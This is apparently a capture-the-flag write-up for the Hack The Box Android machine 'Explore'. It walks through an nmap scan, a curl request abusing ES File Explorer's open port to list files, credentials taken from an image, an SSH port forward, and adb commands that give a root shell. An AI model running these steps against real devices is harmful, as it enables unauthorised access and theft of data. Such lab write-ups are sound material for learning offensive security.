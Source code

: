 ![EXPLORE](banner.png)

## Initial Foothold

```
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
43811/tcp open     unknown
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
Service Info: Device: phone
```

So this is an android device running ES File Explorer on port 42135 and something on 59777. Visiting the website on port 59777 it doesn't seem like a bukkit server but running dirbuster gives us some files. These aren't actual webpages but files to download. With the hint of a JSON api and the ES File Explorer running we found a vulnerability to execute commands through the service of that ES File Explorer like:
```
curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://explore.htb:59777
```
You can even use other commands like "listApps". But this listFiles is just enough because it gives us a file structure where we can search through.

## User:

And finally we found something at:
```
http://explore.htb:59777/sdcard/DCIM/creds.jpg
```
This is a picture that gives us credentials:
```
kristi:Kr1sT!5h@Rp3xPl0r3!
```
Now we can connect via ssh.
There we are an android user and linpeas tells us we are already root but that's a false positive maybe because we are inside the app or something like that.

## Root:

In the nmap scan from the beginning we already found the open port at 5555. This is actually running the Android debug bridge (adb).
As this adb is only accessable locally we need to forward the port like:
```
ssh kristi@explore.htb -L 5555:127.0.0.1:5555 -p 2222
```
Now we can connect the adb on our local machine:
```
adb connect 127.0.0.1:5555
```

With:
```
adb shell
su root
```
or just by:
```
adb root
```
you get the root shell on that device and can find the flag in /data.
